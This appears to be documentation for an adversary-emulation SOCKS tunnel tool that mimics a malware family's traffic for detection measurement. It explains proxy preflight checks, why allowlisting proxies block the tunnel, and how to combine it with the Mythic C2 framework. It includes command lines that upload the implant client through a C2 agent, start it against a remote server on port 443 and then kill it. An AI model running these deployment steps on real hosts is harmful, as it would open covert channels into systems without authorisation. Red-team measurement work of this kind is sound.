


# Deploying it behind a proxy, and whether Mythic helps

## Ask the proxy first

The tunnel needs exactly one thing from a proxy: `CONNECT <host>:443`,
followed by bytes that are neither TLS nor HTTP. Whether a given proxy will
do that is not something to find out after deploying, so `preflight/` asks:

```
# on the host that will run the server
./preflight/proxy-preflight.py --echo-server 0.0.0.0:443

# on the host that will carry the implant
./preflight/proxy-preflight.py --proxy 127.0.0.1:3128 --echo 203.0.113.9:443
.\preflight\proxy-preflight.ps1 -Proxy 10.0.0.9:8080 -Echo 203.0.113.9:443
```

Three verdicts, and only the last is a deployable path:



The middle one is why this exists. A proxy that permits the CONNECT and then
terminates or rewrites the stream leaves a deployment that looks fine and a
handshake that dies for a reason reading as a server fault. The preflight
therefore does not stop at the `200` — it requires a byte-for-byte echo, and
it reports an altered stream separately from a refused one. Exit code is `0`
only for CARRIED.

The PowerShell version exists because the host that most needs a preflight is
the one with no Python — which is precisely the host this family brings its
own interpreter to.

## The two proxy shapes, and what each means for the measurement

**A proxy that filters nothing** passes the CONNECT and moves bytes it does
not inspect. The tunnel is deployable, and the implant's `--proxy` should
point at whatever the host really uses — including a local relay, if the host
reaches an authenticating corporate proxy through one. That is the common
shape for a Linux host with a loopback relay in front of it.

**A proxy with a destination allowlist closes this path by construction**,
and it is worth being precise about why, because the conclusion is stronger
than "we need a workaround":



- A forward proxy sees the CONNECT hostname, so the destination cannot be
  hidden from it.
- If the allowlist only passes a CDN, then a permitted CONNECT lands you on
  a CDN edge — which expects a TLS handshake and then HTTP. The tunnel's
  first byte is a method count. The edge drops it.
- No CDN configuration fixes that: a CDN forwards HTTP, not arbitrary TCP.

So on such a host the tunnel cannot run — **and neither can the family it
emulates**, which dials a hardcoded address on 443 directly and has no proxy
support at all. That is a result about the environment rather than a gap in
this tool, and it bounds where a detection for this family needs to look at
all. Record it as a finding; do not spend a day engineering around it.

## Combining it with Mythic

**As transport: no, and not for a missing-feature reason.** A Mythic C2
profile translates between an agent's transport and Mythic's own messaging.
This tunnel carries no Mythic messages — it carries SOCKS, and that is all it
carries. There is nothing for a profile to translate, so wrapping it in one
would produce a component that does nothing.

**As delivery and teardown: yes, and it is the useful combination.** An agent
already on the host can place the two files and start the client, and stop it
again afterwards — which gives a measurement a repeatable deployment and a
clean teardown without inventing either:

```
upload  client/client.py  ->  <a writable path on the host>
shell   python3 <that path> <server>:443 --proxy 127.0.0.1:3128 --ledger <path>
# ... measurement window ...
shell   pkill -f client.py
```

Two things to hold in mind when doing that during a measurement:

- **Two channels from one host at once need recording.** The agent's own
  channel and this tunnel are both on the wire, and a result attributed to
  the wrong one is worse than no result.
- **They are distinguishable by destination, which helps.** An agent fronted
  by a CDN appears under that domain; this tunnel appears as a CONNECT to an
  address on 443. A detection that groups per destination separates them on
  its own — which makes running both at once defensible, as long as the
  tunnel's destination is not shared with anything else.

**If what you want is a pivot rather than this family's traffic**, a Mythic
agent's own SOCKS feature is the better tool: it rides the agent's existing,
already-fronted transport and needs no second channel. This tool exists to
reproduce one family's wire for a measurement, and that is the only thing it
is better at.
